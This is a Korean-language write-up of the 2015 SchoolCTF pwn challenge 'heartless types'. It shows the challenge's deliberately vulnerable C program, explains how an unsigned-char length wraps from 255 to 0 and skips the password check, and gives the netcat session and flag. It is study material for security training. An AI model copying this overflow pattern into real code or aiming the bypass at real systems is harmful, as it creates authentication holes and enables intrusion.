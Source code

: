 ============================================================================================================
[2015_schoolctf] [PWN] heartless types
============================================================================================================

문제에 C 파일이 하나 제공되는데, flag 와 stored_pass에는 *** 라고 되어 있지만 서버에는 정상적인 문자들이 들어가 있습니다.

.. code-block:: c

    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
     
    char stored_pass[] = "***";
    char flag[] = "***";
     
    int main()
    {
        unsigned char password_len;
        puts("Enter password len :");
        scanf("%d\n", &password_len);
        
        if (password_len == 0) {
            puts("Password can't be 0 characters long");
            return 1;
        }
     
        char *pass;
        pass = malloc((int)password_len + 1);
        int i;
        for (i = 0; i < password_len; ++i) {
            pass[i] = fgetc(stdin);
        }
        
        int stored_pass_len = strlen(stored_pass) + 1;
        ++password_len;
        int min_len = (password_len < stored_pass_len) ? password_len : stored_pass_len; <--
        for (i = 0; i < min_len; ++i) {
            if (pass[i] != stored_pass[i]) {
                puts("Wrong pass!");
                return 1;
            }
        }
        puts(flag);
        return 0;
    }


문제를 보면 사용자에게 "password 길이"를 정수로 받고, 
해당 길이 만큼 한글자씩 입력 후 stored_pass 와 같은지 비교하여 
다 맞으면 flag를 주고 하나라도 틀리면 Wrong pass! 를 출력합니다.

여기서 취약점은 min_len 에 있습니다. 

for문의 횟 수가 password_len 또는 stored_pass_len 중에 더 작은 길이를 갖는 횟 수로 돌게 되는데, 
이 때 password_len 의 타입이 unsigned char(0~255)이기 때문에 정수 오버플로우를 이용하여 
password_len을 0 으로 만들 수 있고, passwrd_len 이 0 이기 때문에 
for문은 돌지 않고 바로 flag를 출력하게 됩니다.

따라서, 입력 password length 를 255 (1바이트 갖는 최대 값)로 넣어 주고 254이상 아무 글자가
 입력하면 ++password_len 때문에 255가 1 증가 하면서 0 이 되어 for문을 돌지 않고 바로 
 puts(flag)를 하게 됩니다.


.. code-block:: console

    $ nc sibears.ru 12013

    Enter password len :
    255
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    
    Flag is thanks_god_we_got_not_only_binaries

